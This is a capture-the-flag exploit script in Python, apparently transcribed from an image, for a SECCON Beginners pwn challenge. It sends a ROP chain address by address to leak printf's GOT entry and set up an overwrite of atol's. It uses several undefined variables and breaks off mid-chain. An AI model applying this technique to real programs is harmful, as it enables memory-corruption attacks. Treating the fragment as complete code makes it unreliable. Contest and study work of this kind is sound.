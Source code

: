 ```python
addr_fatal = 0x4006fc
addr_start = 0x40079e
addr_readlong = 0x40072a
addr_setup = 0x4006d7
addr_main = 0x40079e
addr_5pop = 0x40088b
addr_3pop = 0x40088e
addr_pop_rdi = 0x400893
addr_pop_rsi = 0x400891


io = pwn.remote("es.quals.beginners.seccon.jp", 9003)
#io = pwn.process("./chall")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"0\n")
ret = read_until(io, b"value: ")
addr = str(addr_pop_rdi)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"1\n")
ret = read_until(io, b"value: ")
addr = str(addr_got_printf)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"2\n")
ret = read_until(io, b"value: ")
addr = str(addr_plt_printf)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"3\n")
ret = read_until(io, b"value: ")
addr = str(addr_pop_rdi)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"4\n")
ret = read_until(io, b"value: ")
addr = str(0)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"5\n")
ret = read_until(io, b"value: ")
addr = str(addr_pop_rsi)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"6\n")
ret = read_until(io, b"value: ")
addr = str(addr_got_atol)
io.send(addr.encode("utf-8") + b"\n")

```